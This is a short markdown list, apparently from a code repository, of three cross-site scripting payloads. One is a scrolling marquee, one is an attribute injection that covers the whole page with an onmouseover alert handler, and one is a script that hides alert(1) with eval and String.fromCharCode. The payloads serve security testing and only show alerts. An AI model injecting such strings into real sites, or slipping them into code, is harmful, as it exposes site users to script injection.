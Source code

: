 # XSS payloads

```<marquee behavior="scroll" direction="left"><img src="<put image here>" width=“800” height=“600” alt="Natural" /></marquee>```

Scrolling marquee continuous

```style=width: 10000px; height: 10000px; position: absolute; top: 0; left: 0; z-index: 99999999" onmouseover=alert(0) ```

On mouse over that covers page by @landaire

```<script>eval(String.fromCharCode(97,108,101,114,116,40,39,49,39,41))</script> ```

Using eval and String.fromCharCode to encode/obfuscate alert(1)

